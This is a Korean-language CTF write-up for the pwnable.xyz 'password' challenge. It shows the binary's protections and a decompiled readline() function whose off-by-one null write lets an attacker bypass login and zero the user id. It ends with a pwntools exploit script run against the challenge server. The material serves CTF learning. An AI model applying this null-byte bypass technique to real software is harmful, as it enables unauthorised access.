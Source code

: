 ```yaml
---
title: "[pwnable.xyz]password"
date: 2020-2-2
tags: [pwnable.xyz]
categories: [pwnable.xyz]
---
```


보호기법 다 걸려있다.

```
[*] '/vagrant/ctfs/challenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

여기서 취약점 터진다. 널바이트를 보내게되면 메모리주소 -1 위치를 0으로 셋팅해줄 수 있다.

```c
__int64 __fastcall readline(void *a1, int a2)
{
  int v2; // eax

  read(0, a1, a2);
  v2 = strlen(a1);
  *(a1 + v2 - 1) = 0;
  return (v2 - 1);
}
```

우선 login() 함수에서 readline()할 때 널로 보내게 되면 bypass 할 수 있다. 그러면 creds가 1로 셋팅되고 2번 메뉴를 사용할 수 있게 된다. 거기서 memset으로 flag를 다 널바이트로 바꿔준다. 그리고 여기서도 readline()으로 flag에 입력을 받는다. 근데 flag바로 뒤에 id가 존재해서 id를 0으로 덮어줄 수 있다. id를 0으로 만들었으니까 3번 메뉴로 flag를 읽어올 수 있다. 하지만 memset 해줬으니까 다시 flag를 읽어오는 4번 메뉴를 사용해서 flag 읽어오고 id는 0이니까 3번 메뉴로 flag 출력해주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
# p = process('./challenge')
p = remote('svc.pwnable.xyz',30026)
win = e.symbols['win']
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

def login(password):
	sla('>','1')
	sa(':',password)

def change(password):
	sla('>','2')
	sa(': \n',password)

def printf():
	sla('>','3')

def logout():
	sla('>','4')

sa(':','1234') # User ID:
login('\x00')
change('\x00')
logout()
printf()

p.interactive()
```

